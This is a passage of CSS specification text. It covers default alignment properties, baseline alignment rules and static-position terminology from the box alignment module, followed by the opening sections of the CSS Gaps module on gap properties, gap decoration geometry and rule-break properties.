> **Example:** For example, when the box’s containing block’s `direction` is `ltr` and its own `justify-self` is `end`, apply the rules for `direction: rtl`; when `direction` is `rtl` and `justify-content` is `space-between`, apply the rules for `direction: rtl`; etc. For the case of `center` (or its equivalent), set both sides to match the static position. The absolutely-positioned box is then sized into the resulting space (floored at zero).

> **Note:** The `align-self`/`justify-self` properties can also modify additional aspects of sizing: for example, `justify-self: stretch` will replace “shrink-to-fit” (fit-content) sizing into the available space with stretch-fit sizing (consuming all of the available space). This is an independent effect from the available space adjustment here.

> **Note:** This only affect how available space is calculated for sizing the absolutely-positioned box; its alignment is as specified in previous sections.

### 7.  Default Alignment {#css-align-3:default-alignment}

The `align-items` and `justify-items` properties (and their `place-items` shorthand) set the default `align-self` and `justify-self` behavior of the element’s child boxes.


#### 7.1.  Inline-Axis (or Main-Axis) Default Alignment: the `justify-items` property {#css-align-3:justify-items-property}

| Field | Value |
| --- | --- |
| Name: | **justify-items** |
| [Value:](#css-values-4:value-defs) | normal \| stretch \| `<baseline-position>` \| `<overflow-position>`? [ `<self-position>` \| left \| right ] \| legacy \| legacy && [ left \| right \| center ] |
| [Initial:](#css-cascade-6:initial-values) | legacy |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s), except for `legacy` (see prose) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the default `justify-self` for all of the child boxes (including anonymous boxes) participating in this box’s formatting context. Values have the following meanings:

****legacy****

: This keyword causes the value to effectively inherit into descendants.

  If the `legacy` keyword appears on its own (without an accompanying `left`, `right`, or `center` keyword): if the inherited value of `justify-items` includes the `legacy` keyword, this value computes to the inherited value; otherwise it computes to `normal`.

  When `justify-self:auto` references the value of `justify-items`, only the alignment keyword, not the `legacy` keyword, is referenced by it. It exists to implement the legacy alignment behavior of HTML’s `<center>` element and `align` attribute.

Other values have no special handling and are merely referenced by `justify-self`.

#### 7.2.  Block-Axis (or Cross-Axis) Default Alignment: the `align-items` property {#css-align-3:align-items-property}

| Field | Value |
| --- | --- |
| Name: | **align-items** |
| [Value:](#css-values-4:value-defs) | normal \| stretch \| `<baseline-position>` \| `<overflow-position>`? `<self-position>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies the default `align-self` for all of the child boxes (including anonymous boxes) participating in this box’s formatting context.

Values have no special handling and are merely referenced by `align-self`.

#### 7.3.  Default Alignment Shorthand: the `place-items` property {#css-align-3:place-items-property}

| Field | Value |
| --- | --- |
| Name: | **place-items** |
| [Value:](#css-values-4:value-defs) | `<'align-items'>` `<'justify-items'>`? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This shorthand property sets both the `align-items` and `justify-items` properties in a single declaration. The first value is assigned to `align-items`. The second value is assigned to `justify-items`; if omitted, it is copied from the first value.

### 8.  Gaps Between Boxes {#css-align-3:gaps}

This section has been moved to [CSS Gaps 1 § 2 Gaps Between Boxes](#css-gaps-1:gaps).

### 9.  Baseline Alignment Details {#css-align-3:baseline-rules}

Boxes in a baseline-sharing group are aligned to each other using their alignment baselines. For example, in horizontal writing modes, specifying `align-content: baseline` on table cells in the same row will align the baselines of their first formatted lines. This section defines exactly how baseline alignment is performed in consideration of the myriad baselines and writing modes that exist in internationalized modern CSS.

A **baseline set** is a set of baselines (alphabetic, central, etc.) associated with a common baseline table. Typically, a typesetting tradition will use only one of these, but different writing systems use different baselines, and mixing writing systems can result in using more than one within a single line. Refer to [CSS Writing Modes 3 § 4.1 Introduction to Baselines](#css-writing-modes-4:intro-baselines) for more information on baselines and writing modes.

#### 9.1.  Determining the Baselines of a Box {#css-align-3:baseline-export}

Each box, for a given axis, has potentially a **first baseline set** (and **last baseline set**) that nominally corresponds to the baseline set of the first/last line of text within the box. The **alignment baseline**, which is the baseline used to align the box in its alignment context, is one of the baselines in its baseline set, usually the dominant baseline associated with the shared alignment context. (See the `dominant-baseline` and `alignment-baseline` properties in [CSS-INLINE-3].)

The first and last baseline sets of a box are determined differently based on the layout model, as follows:

**line box**

: The first/last baseline set of a line box is generated from the dominant baseline and the font settings of its root inline box.

**block containers**

: The first/last baseline set of a block container is taken from the first/last in-flow line box in the block container or the first/last in-flow block-level child in the block container that contributes a set of first/last baselines, whichever comes first/last. If there is no such line box or child, then the block container has no baseline set.

  However, for legacy reasons if its `baseline-source` is `auto` (the initial value) a block-level or inline-level block container that is a block-axis scroll container always has a last baseline set, whose baselines all correspond to its block-end margin edge.

**multi-column containers**

: The first baseline set of a multi-column container is the first baseline set of the column or multi-column spanner with the highest (block-start–most) baseline corresponding to the multi-column container’s alignment baseline. If there is no such line box or child, then the multi-column container has no first baseline set.

  The last baseline set is analogous, but uses the *last* baseline set and *lowest* (block-end–most) baseline.

**tables**

: The first/last baseline set of a table box is the first/last baseline set of its first/last row (after any reordering of table row group box).

  When finding the first/last baseline set of an inline-block, any baselines contributed by table boxes must be skipped. (This quirk is a legacy behavior from [CSS2].)

**table rows**

: The first baseline set of a table row box is taken from the first available of:

  1. If any cells in the row participate in first baseline alignment along the table’s inline axis, generate a baseline set from their shared alignment baseline and the row’s first available font, after alignment has been performed.
  2. Otherwise, if any cells in the row participate in last baseline alignment along the table’s inline axis, generate from *that* alignment baseline.
  3. Otherwise, if the row is not empty, synthesize from the lowest and highest content edges of all the cells in the row. See [CSS 2 § 17.5.3 Table height algorithms](#css2:height-layout).
  4. Otherwise, use the block-start content edge of the table row box itself as the alignment baseline.

  For this purpose, any table cell that spans multiple rows is ignored if it’s span does not start in this row; except that for step 2, it’s ignored if its span does not *end* in this row.

  *Last baselines are analogous (with “first”/“last” and “start”/“end” inverted).*

  Spanning cells participate only in the first/last row that they span for the purpose of `first baseline`/`last baseline`.

**flex containers**

: See [Flex Baselines](#css-flexbox-2:flex-baselines) in [CSS-FLEXBOX-1].

**grid containers**

: See [Grid Baselines](#css-grid-2:grid-baselines) in [CSS-GRID-1].

To **generate baselines** for a box from a single baseline, use the baseline table from the font settings and first available font of that box, and align that baseline set to the given single baseline.

If a box that participates in baseline alignment has no baseline set, then its alignment baseline is synthesized according to the rules of the formatting context in which it participates. To **synthesize baselines** from a rectangle (or two parallel lines), synthesize the alphabetic baseline from the line-under line, and the central baseline by averaging the positions of the two edges or lines. See [CSS Inline Layout 3 § A Synthesizing Alignment Metrics](#css-inline-3:baseline-synthesis) for rules on synthesizing additional baselines.

> **Note:** The edges used to synthesize baselines from a box depend on their formatting context: inline-level boxes synthesize from their margin edges [CSS-INLINE-3], table cells synthesize from their content edges [CSS2], and grid and flex items synthesize from their border edges [CSS-GRID-1] [CSS-FLEXBOX-1].

In general, the writing mode of the box, shape, or other object being aligned is used to determine the line-under and line-over edges for synthesis. However, when that writing mode’s block flow direction is parallel to the axis of the alignment context, an axis-compatible writing mode must be assumed:

- If the box establishing the alignment context has a block flow direction that is orthogonal to the axis of the alignment context, use its writing mode.
- Otherwise:

  - If the box’s own writing mode is vertical, assume `horizontal-tb`.
  - If the box’s own writing mode is horizontal, assume `vertical-lr` if `direction` is `ltr` and `vertical-rl` if `direction` is `rtl`.

For the purposes of finding the baselines of a box, it and all its in-flow descendants that are block-axis scroll containers must be considered as if scrolled to their initial scroll position. Additionally, if the position of a scroll container’s first/last baseline is outside its border edge, that baseline’s position is clamped to the border edge.

#### 9.2.  Baseline Alignment Grouping {#css-align-3:baseline-terms}

A **baseline-sharing group** is composed of boxes that participate in baseline alignment together. This is possible only if they both:

- Share an alignment context along an axis perpendicular to the axis they’re being baseline-aligned in. (For example, grid items with `align-self: baseline` are baseline-aligning along the grid’s block axis, and therefore participate with other items in their row.)
- Have compatible baseline alignment preferences (i.e., the baselines that want to align are on the same side of the alignment context).

> **Note:** Boxes participating in baseline content-alignment and boxes participating in baseline self-alignment can be part of the same baseline-sharing group, and can thus align to each other. The difference between the two methods is in where extra space is inserted to perform the alignment (inside or outside the box’s own border).

Boxes share an **alignment context**, along a particular axis, and established by a particular box, when they are:

- table cells in the same row, along the table’s row (inline) axis, established by the row box
- grid items in the same row, along the grid’s row (inline) axis, established by the grid container
- grid items in the same column, along the grid’s column (block) axis, established by the grid container
- flex items in the same flex line, along the flex container’s main axis, established by the flex container

> **Note:** Conceptually, the inline-level boxes in a line box also share a self-alignment context and participate in a baseline-sharing group; however they only baseline-align in response to the `vertical-align` property, not any of the properties defined in this module. See [CSS-INLINE-3].

If a box spans multiple shared alignment contexts, then it participates in first/last baseline alignment within its start-most/end-most shared alignment context along that axis. For example, a table cell spanning three rows participates in first-baseline alignment with the table cells in the first row that it spans, or alternatively in last-baseline alignment with the table cells in the last row that it spans.

The baseline alignment preferences of two boxes in a baseline-sharing group are **compatible** if they have:

- the same block flow direction and same baseline alignment preference
- opposite block flow direction and opposite baseline alignment preference

#### 9.3.  Aligning Boxes by Baseline {#css-align-3:align-by-baseline}

Given a set of alignment subjects and their baselines that all belong to a single baseline-sharing group, the alignment subjects are baseline-aligned as follows:

1. Generate the baseline-sharing group’s baseline table from the first available font of the group’s alignment context and overlay also the mirror of this baseline table by aligning their central baselines. These are the baseline “grids” to which the alignment subjects will align.
2. Align each alignment subject by its specified alignment baseline to the group’s baseline table or its mirror, whichever matches the alignment subject’s line orientation. Unless otherwise specified (e.g. via the `alignment-baseline` property), the alignment baseline is the dominant baseline of the alignment context.
3. Position the aligned baseline-sharing group within the alignment container according to its fallback alignment. The fallback alignment of a baseline-sharing group is the fallback alignment of its items as resolved to physical directions.
4. For first/last baseline *content*-alignment, then add the minimum necessary extra space between the alignment container’s start/end content edge and the alignment subject’s edge to align the start/end margin edges of all the alignment containers in the alignment context while maintaining baseline alignment within the baseline-sharing group.

### Appendix A: Static Position Terminology {#css-align-3:staticpos-rect}

When both inset properties in a given axis are `auto` on an [absolutely positioned box](#css2:absolutely-positioned), CSS2 uses its static position to resolve its size and position. See [CSS2.1§10.3.7](#css2:abs-non-replaced-width). The box alignment properties modify these calculations, just as they do the sizing and positioning calculations in other layout modes. These modifications refer to a **static-position rectangle**, whose edges represent the static position of the box from each side of its containing block.

The static-position rectangle and the static positions to which it corresponds are defined by the layout model of its “hypothetical box”:

**Block Layout**

: The static positions of a block-level box are defined in [CSS2] Chapter 10. The static-position rectangle is a zero-thickness rectangle spanning between the inline-axis sides of the box’s static-position containing block (see [CSS2§10.3.7](#css2:abs-non-replaced-width)); and positioned at its block-start static position (see [CSS2§10.6.4](#css2:abs-non-replaced-height)).

**Inline Layout**

: The static positions of an inline-level box are defined in [CSS2] Chapter 10. The static-position rectangle is a zero-thickness rectangle spanning between the line-over/line-under sides of the line box that would have contained its “hypothetical box” (see [CSS2§10.3.7](#css2:abs-non-replaced-width)); and positioned at its inline-start static position.

**Flex Layout**

: The static-position rectangle of the child of a flex container corresponds to the content edges of the flex container. See [CSS Flexbox 1 § 4.1 Absolutely-Positioned Flex Children](#css-flexbox-2:abspos-items).

**Grid Layout**

: By default, the static-position rectangle of the child of a grid container corresponds to the content edges of the grid container. However, if that grid container also establishes the box’s actual containing block, then the grid area specified by the grid-placement properties establishes its static-position rectangle instead. See the [static position of a grid container child](#css-grid-2:static-position) in [CSS-GRID-1].

---

## CSS Gaps Module Level 1 {#css-gaps-1}

- **Shortname:** `css-gaps-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-gaps-1/](https://drafts.csswg.org/css-gaps-1/)
- **Published TR:** [https://www.w3.org/TR/css-gaps-1/](https://www.w3.org/TR/css-gaps-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-11-13

### 1.  Introduction {#css-gaps-1:intro}

*This section is not normative.*

[CSS Multicol 1 § 4 Column Gaps and Rules](#css-multicol-2:column-gaps-and-rules) defined properties that allow authors to control the spacing between columns in a multicol container, and to paint visible separators such as lines in those spaces. We refer to these visible separators as gap decorations.

This specification expands upon the previously defined properties. It adds equivalent properties for the row direction, applies the full set of properties to other container types, and gives additional control over where and how gap decorations are painted.

#### 1.1.  Value Definitions {#css-gaps-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Gaps Between Boxes {#css-gaps-1:gaps}

While `margin` and `padding` can be used to specify visual spacing around individual boxes, it’s sometimes more convenient to globally specify spacing *between* adjacent boxes within a given layout context, particularly when the spacing is different between sibling boxes as opposed to between the first/last box and the container’s edge.

The `gap` property, and its `row-gap` and `column-gap` sub-properties, provide this functionality for [multi-column](#css-multicol-2), [flex](#css-flexbox-2), [grid](#css-grid-2), and [grid lanes](#css-grid-3) layout.

A **gap** is either a **column gap** or **row gap**, whose definitions vary by type of container:

**multi-column containers**

: A column gap is the gutter between adjacent column boxes, see [CSS-MULTICOL-1].

  A row gap is the gutter between the rows of column boxes established by `column-height`, see [CSS-MULTICOL-2].

**flex containers**

: When applied to the main axis (e.g. column gap in a `row` flex container), refers to the gutter between items (as if an additional fixed-size margin were inserted between adjacent flex items in a single line).

  When applied to the cross axis (e.g. row gap in a `row` flex container), refers to the gutter between adjacent flex lines.

**grid containers other than grid lanes containers**

: Row gap and column gap, in the context of a grid container, refer to the gutters between grid rows and grid columns, respectively. See [CSS Grid Layout 1 § 10.1 Gutters: the row-gap, column-gap, and gap properties](#css-grid-2:gutters) for precise details.

**grid lanes containers**

: When applied to the grid axis (e.g. column gap in a grid lanes container with column tracks), refers to the gutter between adjacent grid tracks.

  When applied to the stacking axis (e.g. row gap in a grid lanes container with column tracks), refers to the gutter between items in each grid track.

  See [CSS Grid Layout 3 § 6.1 Gutters: the row-gap, column-gap, and gap properties](#css-grid-3:gutters) for precise details.

Gutters effect a minimum spacing between items: additional spacing may be added by `justify-content`/`align-content`. Such additional space increases the size of the corresponding gaps.

In all cases, the gap disappears when it coincides with a fragmentation break. [CSS-BREAK-3]

> **Note:** Table boxes do not use the `gap` properties to specify separation between their cells. Instead, they use the `border-spacing` property, which has slightly different functionality: it inherits, and it also specifies the additional spacing between the outermost cells and the border of the table (similar to `space-evenly` rather than `space-between`).

> **Example:** 
>
> Column gaps in orange in a multicol container with a spanner element. Note that column gaps break when they encounter the spanner.

> **Example:** 
>
> Gaps in a multicol container with `column-wrap: wrap`; column gaps in orange and row gaps in blue. Note that column gaps in multicol containers do not overlap row gaps, similar to flex.

> **Example:** 
>
> Gaps in a grid container; column gaps in orange and row gaps in blue. Note the shaded areas where gaps overlap.

> **Example:** 
>
> Gaps in a flex container; column gaps in orange and row gaps in blue. Note that, unlike in grid, gaps in flex do not overlap.

> **Example:** 
>
> Gaps in a grid lanes container; column gaps in orange and row gaps in blue. Note that the row gaps are staggered between tracks.

> **Example:** 
>
> Row gaps in blue in a four-column grid lanes container with spanning items. Note that the gap before full-width item 5 has one segment in each track, as described in [CSS Grid Layout 3 § 6.1 Gutters: the row-gap, column-gap, and gap properties](#css-grid-3:gutters).

> **Example:** 
>
> Gaps in a grid lanes container with spanning items; column gaps in orange and row gaps in blue. Note that the empty spaces due to item placement below items 2 and 3 are not part of the row gaps, as described in [CSS Grid Layout 3 § 6.1 Gutters: the row-gap, column-gap, and gap properties](#css-grid-3:gutters).

#### 2.1.  Row and Column Gutters: the `row-gap` and `column-gap` properties {#css-gaps-1:column-row-gap}

| Field | Value |
| --- | --- |
| Name: | **row-gap**, **column-gap** |
| [Value:](#css-values-4:value-defs) | normal \| `<length-percentage [0,∞]>` \| `<line-width>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | multi-column containers, flex containers, grid containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see [§ 2.3 Percentages In gap Properties](#css-gaps-1:gap-percent) |
| [Computed value:](#css-cascade-6:computed) | specified keyword, else a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

These properties specify fixed-length **gutters** between items in the container, adding space between them—​in a manner similar to the `space-between` keyword of the content-distribution properties, but of a fixed size instead of as a fraction of remaining space. The `column-gap` property specifies spacing between “columns”, separating boxes in the container’s inline axis similar to inline-axis margin; while `row-gap` indicates spacing between “rows”, separating boxes in the container’s block axis.

Values have the following meanings:

**`<length-percentage [0,∞]>` `<line-width>`**

: Specifies a row gap or column gap as defined by the layout modes to which it applies.

  Negative values are invalid. For percentages, see [§ 2.3 Percentages In gap Properties](#css-gaps-1:gap-percent).

****normal****

: The value `normal` represents a used value of `1em` on multi-column containers, and a used value of `0px` in all other contexts.

#### 2.2.  Gap Shorthand: the `gap` property {#css-gaps-1:gap-shorthand}

| Field | Value |
| --- | --- |
| Name: | **gap** |
| [Value:](#css-values-4:value-defs) | `<'row-gap'>` `<'column-gap'>`? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | multi-column containers, flex containers, grid containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to corresponding dimension of the content area |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property is a shorthand that sets `row-gap` and `column-gap` in one declaration. If <'column-gap'> is omitted, it’s set to the same value as <'row-gap'>.

> **Example:** 
>
> > **Note:** The `gap` property is only one component of the visible “gutter” or “alley” created between boxes. Margins, padding, or the use of distributed alignment may increase the visible separation between boxes beyond what is specified in `gap`.

#### 2.3.  Percentages In `gap` Properties {#css-gaps-1:gap-percent}

In general, gaps introduced by the `gap` properties are intended to act like an empty item/track/etc with the gap’s size; in other words, an author should be able to reproduce the effects of `gap` by just inserting additional empty items/tracks/etc into the container.

`gap` always resolves percentages against the corresponding size of the content box of the element. When this size is definite, the behavior is well-defined and consistent across layout modes. But since different layout modes treat cyclic percentage sizes for items/tracks/etc differently, `gap` does as well:

**In Grid Layout**

: [As in the min size properties and margins/paddings](#css-sizing-3:percentage-sizing) [CSS-SIZING-3], cyclic percentage sizes resolve against zero for determining intrinsic size contributions, but resolve against the box’s content box when laying out the box’s contents.

**In Flex Layout**

: Cyclic percentage sizes resolve against zero in all cases.

#### 2.4.  Legacy Gap Properties: the `grid-row-gap`, `grid-column-gap`, and `grid-gap` properties {#css-gaps-1:gap-legacy}

The Grid Layout module was originally written with its own set of gutter properties, before all such properties were unified into the existing `row-gap`/`column-gap` naming. For compatibility with legacy content, these grid-prefixed names must be supported as follows:

- **grid-row-gap** as a legacy name alias of the `row-gap` property
- **grid-column-gap** as a legacy name alias of the `column-gap` property
- **grid-gap** as a legacy name alias of the `gap` property

### 3.  Gap decorations {#css-gaps-1:gap-decorations}

Gaps may contain a **gap decoration**, which is a visible separator (such as a line) painted between adjacent boxes.

Gap decorations do not take up space. That is, the presence or width of a gap decoration will not alter the placement of anything else. If a gap decoration is wider than its gap, any adjacent boxes will overlap the decoration, and in some cases the decoration may extend outside the box of the container.

Gap decorations are painted just above the border of the container. For scrollable containers, note that while the border and background of the container aren’t scrolled, the decorations need to scroll along with items in the container.

Gap decorations follow the definitions of "column" and "row" laid out by the container to which the properties are applied. They depend on the container type taking writing mode into account when determining the meanings of these terms. For examples, see: [CSS Multicol 2 § 3 The multi-column model](#css-multicol-2:the-multi-column-model), [CSS Flexbox 1 § 5.1 Flex Flow Direction: the flex-direction property](#css-flexbox-2:flex-direction-property), and [CSS Grid Layout 1 § 3 Grid Layout Concepts and Terminology](#css-grid-2:grid-concepts).

Properties in this specification whose names begin with "column" apply to column gaps, and properties in this specification whose names begin with "row" apply to row gaps.

#### 3.1.  Geometry {#css-gaps-1:geometry}

Gap decorations are painted within a gap as one or more gap decoration segments.

##### 3.1.1.  Segment endpoints {#css-gaps-1:segment-endpoints}

A **segment endpoint** is a point on a gap’s centerline where a gap decoration segment may start or end. There are two endpoint types:

- **start segment endpoint**: Point closest to the start side of the gap.
- **end segment endpoint**: Point closest to the end side of the gap.

To **create segment endpoints** for a gap *G*:

1. Bounds of a Gap:

   Create endpoints at *G*’s two bounds:

  - At the centerpoint of *G*’s start edge, create a start segment endpoint.
  - At the centerpoint of *G*’s end edge, create an end segment endpoint.

   > **Note:** When a gap runs to the content boundary, these endpoints coincide with the corresponding content edge.
2. Within a Gap:

   A **gap junction** is a region of *G* where one or more gaps abut or overlap *G*. Two segment endpoints are created for each gap junction:

  - Entering a gap junction: At the point where a cross gap appears on at least one side of *G*, create an end segment endpoint.
  - Exiting a gap junction: At the point where no cross gap exists on either side of *G*, create a start segment endpoint.

   > **Note:** This ordering (end segment endpoint, start segment endpoint) reflects that the gap junction corresponds to the end of one track/item/column and the beginning of another.
3. Spanning Items in Grid Lanes:

   If *G* is a grid axis gap in a grid lanes container and an item spans across *G*:

  1. Let *distance* be the used value of `row-gap` or `column-gap`, whichever applies in the stacking axis.
  2. After [self-alignment](#css-grid-3:stacking-self-alignment), for each item spanning *G*, take the interval along *G*’s centerline from *distance* before its leading edge to *distance* after its trailing edge.
  3. For each such interval, create an end segment endpoint at its start if one does not already exist at that position, and create a start segment endpoint at its end if one does not already exist at that position.

   > **Note:** These additional endpoints do not create gutters or gap junctions. They allow grid axis decorations to extend into alignment space around spanning items, even where no stacking axis gutter abuts *G*. See [Issue 14648](https://github.com/w3c/csswg-drafts/issues/14648).

The following examples illustrate the locations of segment endpoints, with a purple + for  start segment endpoints and a green + for  end segment endpoints in each case. Gap junctions are shown with a dashed box.

> **Example:** ```
> .grid-with-spans {
>   display: grid;
>   grid-template: repeat(4, 100px) / repeat(4, 100px);
>   gap: 20px;
>   background: rgb(255 255 128);
> }
> .grid > * {
>   border: 1px dashed black;
> }
> ```
>
> 
>
> Locations of segment endpoints and gap junctions in a grid with spanning items. Segment endpoints are created at the bounds of each gap (which coincide with the edges of the container), and within each gap in an end-start manner where the row and column gaps overlap.

> **Example:** ```
> .flex {
>   display: flex;
>   flex-wrap: wrap;
>   gap: 20px;
>   width: 500px;
>   background: rgb(255 255 128);
> }
> .flex > * {
>   border: 1px dashed black;
> }
> ```
>
> 
>
> Locations of segment endpoints and gap junctions in a flex container. Column gaps create endpoints at their bounds; some bounds coincide with the container edges (like the start of the gaps between #1 and #2, and #2 and #3 which coincide with the top edge of the container, and the end of the gap between #7 and #8 which coincides with the bottom edge of the container). Row gaps (between flex lines) create endpoints at their bounds, which coincide with the left and right edges of the container. Where column gaps abut row gaps, two endpoints are created in an end-start manner.

> **Example:** ```
> .multi-column {
>   column-count: 3;
>   column-width: 100px;
>   column-height: 50px;
>   column-wrap: wrap;
>   gap: 20px;
>   background: rgb(255 255 128);
> }
>
> .multi-column > * {
>   height: 100px;
>   border: 1px dashed black;
> }	
> ```
>
> 
>
> Locations of segment endpoints and gap junctions in a multi-column container. Column gaps (between column boxes) create endpoints at their bounds; some bounds coincide with the container edges (like the starts of the first 2 column gaps which coincide with the top edge, and the ends of the last 2 column gaps which coincide with the bottom edge). The row gap (between rows of column boxes) creates endpoints at its bounds, which coincide with the left and right edges of the container. Where column gaps abut the row gap, two endpoints are created in an end-start manner.

> **Example:** ```
> .lanes {
>   display: grid-lanes;
>   grid-template-columns: repeat(3, 100px);
>   gap: 20px;
>   width: 340px;
>   background: #e6e6e6;
> }
> .lanes > div {
>   box-sizing: border-box;
>   height: 80px;
>   border: 1px solid black;
> }
> .lanes > .tall {
>   height: 300px;
> }
> .lanes > .spanner {
>   grid-column: 2 / span 2;
>   align-self: center;
> }
> ```
>
> 
>
> Locations of segment endpoints and gap junctions in a grid lanes container with a spanning item centered in its space available for alignment (4). The row gutters stay at their pre-alignment positions. Start segment endpoints are marked with purple crosses and end segment endpoints are marked with green crosses.

##### 3.1.2.  Gap segments {#css-gaps-1:gap-segments}

A **gap segment** is the portion of a gap between a start segment endpoint and the end segment endpoint that directly follows the gap along its centerline. Each gap forms a collection of gap segments.

To **determine gap segments** for a given gap *G*:

1. Let *segments* be an empty list.
2. Let *endpoints* be the result of creating segment endpoints for *G*, ordered by their position along *G*’s centerline from start to end.
3. While *endpoints* is not empty:

  1. Create a gap segment from the first two items in *endpoints*, then append it to *segments*.
  2. Remove the first two items from *endpoints*.
4. Return *segments*.

> **Example:** 
>
> Illustration of gap segments (blue and red rectangles) in a grid container. Each gap segment is drawn between a pair of segment endpoints, with start segment endpoints marked with purple crosses and end segment endpoints marked with green crosses.

> **Example:** 
>
> Illustration of gap segments (blue and red rectangles) in a flex container. Each gap segment is drawn between a pair of segment endpoints, with start segment endpoints marked with purple crosses and end segment endpoints marked with green crosses.

> **Example:** 
>
> Illustration of gap segments (blue and red rectangles) in a multicol container (with column-wrap: wrap). Each gap segment is drawn between a pair of segment endpoints, with start segment endpoints marked with purple crosses and end segment endpoints marked with green crosses.

> **Example:** 
>
> Illustration of gap segments (blue and red rectangles) in a flex container. Each gap segment is drawn between a pair of segment endpoints, with start segment endpoints marked with purple crosses and end segment endpoints marked with green crosses.

> **Example:** 
>
> Illustration of gap segments (blue and red rectangles) in a flex container. Each gap segment is drawn between a pair of segment endpoints, with start segment endpoints marked with purple crosses and end segment endpoints marked with green crosses.

##### 3.1.3.  Gap decoration segments {#css-gaps-1:segments}

###### Definitions {#css-gaps-1:segments-definitions}

A **gap decoration segment** is formed by joining one or more consecutive gap segments of a gap. The [rule-break](#css-gaps-1:break) properties control how gap segments are joined, as described in the steps to determine gap decoration segments. See [§ 3.2 Break behaviors at intersections: The column-rule-break, row-rule-break, and rule-break properties](#css-gaps-1:break) for examples of gap decoration segments with each `rule-break` value in different types of containers.

In this section, we represent a gap decoration segment *s* as `s = [s.start, s.end]`, where `s.start` is the start segment endpoint of the segment, and `s.end` is the end segment endpoint of the segment. We use the same notation for gap segments.

Let **UNION**(*s1*, *s2*) be the gap decoration segment [*s1*.start, *s2*.end].

A gap decoration segment is **flanked by spanning items** if, for every gap junction between its endpoints, there exist items on opposing sides of the gap that span across all perpendicular gaps contributing to that junction.

In the context of a given gap, a pair of segment endpoints *a* and *b* is considered **discontiguous** if a line segment from *a* to *b*, with the same width as the gap, intersects a child item in the container.

###### Algorithms {#css-gaps-1:segments-algorithms}

To **determine gap decoration segments** for a given gap *G*:

1. Let *S* be an empty list.
2. Let *segments* be the result of determining gap segments for *G*.
3. If *segments* is empty, return *S*.
4. Let *break* be the used value of either `column-rule-break` or `row-rule-break`, whichever applies to the gap.
5. If *break* is `none`:

  1. Let *first* be the first item in *segments*.
  2. Let *last* be the last item in *segments*.
  3. Let *s* be UNION(*first*, *last*).
  4. Apply offsets to *s*, then append it to *S*.
  5. Return *S*.
6. *Empty Check:* If *segments* is empty, return *S*.
7. Let *s* be a gap decoration segment formed from the first item in *segments*. Remove that item from the list.
8. If *s*’s endpoints are discontiguous, go back to *Empty Check*.
9. While *segments* is not empty:

  1. Let *next* be the first item in *segments*, leaving it in the list.
  2. Let *candidate* be UNION(*s*, *next*).
  3. If *candidate*’s endpoints are discontiguous, exit this loop.
  4. If *break* is `intersection` and *candidate* is not flanked by spanning items, exit this loop.
  5. Remove the first item from *segments*.
  6. Set *s* to *candidate*.
10. Apply offsets to *s*, then append it to *S*.
11. Go back to *Empty Check*.

To **apply offsets to a segment** *s* = [*start*, *end*]:

1. Offset *start* by the used value of the applicable [rule-inset](#css-gaps-1:inset) property.
2. Offset *end* by the used value of the applicable [rule-inset](#css-gaps-1:inset) property.
3. Update *s* with the adjusted [*start*, *end*].

> **Example:** 
>
> Illustration of gap decoration segments (blue and red rectangles) in the same grid container as the first example in [§ 3.1.2 Gap segments](#css-gaps-1:gap-segments), with the initial `normal` value. Each gap decoration segment joins the gap segments of its gap through the visible "cross" intersections at the gap junctions (dashed boxes). Start segment endpoints are marked with purple crosses and end segment endpoints are marked with green crosses.

> **Example:** 
>
> Illustration of gap decoration segments in a grid lanes container, with start segment endpoints marked with purple crosses and end segment endpoints marked with green crosses. Note that spanning item 4 has a separate gap decoration segment in each track it spans.

#### 3.2.  Break behaviors at intersections: The `column-rule-break`, `row-rule-break`, and `rule-break` properties {#css-gaps-1:break}

| Field | Value |
| --- | --- |
| Name: | **column-rule-break**, **row-rule-break** |
| [Value:](#css-values-4:value-defs) | `none` \| `normal` \| `intersection` |
| [Initial:](#css-cascade-6:initial-values) | `normal` |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, flex containers, multicol containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
